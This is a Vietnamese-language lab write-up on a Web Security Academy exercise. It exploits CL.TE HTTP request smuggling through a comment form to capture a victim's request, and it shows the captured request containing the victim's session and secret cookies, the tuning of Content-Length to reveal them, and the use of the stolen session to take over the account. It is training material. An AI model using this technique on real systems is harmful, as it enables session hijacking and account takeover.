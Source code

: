 ## Exploiting HTTP request smuggling to capture other users' requests

1. Khai thác smuggling ở chức năng comment, tiến hành khai thác CL.TE để store request tiếp sau smuggling request vào param `comment`. (Ở đây csrf và session cố định)

2. Gửi request smuggling như sau:

![image](https://user-images.githubusercontent.com/80744099/227424469-654c4f4a-51fd-4c97-97ee-929d5d61e1ac.png)

3. ĐƯợc biết với mỗi POST request được gửi thì victim lại truy cập trang / 1 lần. Như vậy sau khi gửi request smuggling chờ cho victim access đến trang / là nội dung request của victim sẽ được store trong một comment mới.

![image](https://user-images.githubusercontent.com/80744099/227425035-537393a2-69d0-474b-8236-687068f497d1.png)

4. Khi đó, victim sẽ gửi một request được nối thêm như sau: 
```
POST /post/comment HTTP/1.1
Host: 0a4e009e033231b4c4e37d6000040055.web-security-academy.net
Cookie: session=Ajli7EQ709wPnysAGdgzwn9LQzcOknPq; session=3Gkwm0IOhCHifABpnFg23C79CrbwSsXf
Content-Length: 945

csrf=h28CwhpdbMdRekRZgZUzl1QLpbu6xhXp&postId=8&name=manhcuong&email=cuong9cm@gmail.com&website=https://google.com&comment=GET / HTTP/1.1 Host: 0a4e009e033231b4c4e37d6000040055.web-security-academy.net cache-control: max-age=0 sec-ch-ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Linux" upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br accept-language: en-US,en;q=0.9 cookie: victim-fingerprint=5i3wv1oIDU6iOiQofgPwzIx2Rn1Kun5p; secret=AcpMqNz1uQ4NV5ssIJcQqXihJrLpd9Xo; session=wFGlS6I85w3gj3puhvKoQIF0oIYLfXTW Co
```

5. Sau nhiều lần thử thì xác định được độ dài `Content-Length` để hiển thị đủ cookie của victim là 945

6. Edit giá trị cookie của access account của victim.

